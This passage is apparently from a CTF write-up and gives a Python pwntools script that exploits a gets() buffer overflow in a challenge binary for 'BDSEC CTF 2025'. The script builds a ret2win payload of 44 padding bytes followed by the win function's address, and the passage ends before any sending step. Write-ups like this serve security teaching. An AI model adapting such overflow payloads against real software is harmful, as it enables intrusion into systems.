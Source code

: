 ![Exploit Success Remote](img/blog/exploit-success-remote.png)

## The Complete Exploit

Here's the final working exploit that captured the flag:

```python
#!/usr/bin/env python3
"""
Buffer Overflow Exploit for BDSEC CTF 2025
Target: vuln function with gets() vulnerability
Strategy: ret2win - jump to win function
"""

import struct
import subprocess
import sys
from pwn import *

# Configuration
BINARY_PATH = "./vuln1"
WIN_FUNCTION_ADDR = 0x08049276  # Address of win function
BUFFER_SIZE = 36
OFFSET_TO_RET = 44  # Buffer (36) + saved EBX (4) + saved EBP (4) = 44

def exploit_ret2win():
    """
    Simple ret2win exploit - overwrite return address with win function
    """
    print("[*] Building ret2win payload...")
    
    # Create payload: buffer padding + win function address
    payload = b'A' * OFFSET_TO_RET
    payload += p32(WIN_FUNCTION_ADDR)
    
    print(f"[*] Win function address: 0x{WIN_FUNCTION_ADDR:x}")
    print(f"[*] Payload length: {len(payload)}")
    
    return payload

```